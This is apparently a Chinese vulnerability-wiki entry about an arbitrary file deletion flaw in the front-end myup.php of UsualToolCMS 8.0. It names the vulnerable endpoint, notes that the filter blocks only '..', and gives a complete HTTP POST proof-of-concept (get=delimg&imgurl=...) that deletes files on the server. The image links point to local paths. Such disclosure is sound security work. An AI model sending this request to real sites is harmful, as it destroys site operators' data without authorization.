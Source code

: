 UsualToolcms前台任意文件删除
============================

一、漏洞简介
------------

前台myup.php文件最后一段存在任意文件删除

二、漏洞影响
------------

UsualToolCMS-8.0-Release

三、复现过程
------------

漏洞点：<http://0-sec.org/myup.php>

![](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0myup.php前台任意文件删除/media/rId25.shtml)

第47行只对..精心过滤，我仍然能任意删除网站内部的文件，直接构造poc，

![](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0myup.php前台任意文件删除/media/rId26.shtml)

![](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0myup.php前台任意文件删除/media/rId27.shtml)

    POST /UsualToolCMS/myup.php HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    DNT: 1
    X-Forwarded-For: 8.8.8.8
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 25

    get=delimg&imgurl=./1.ph
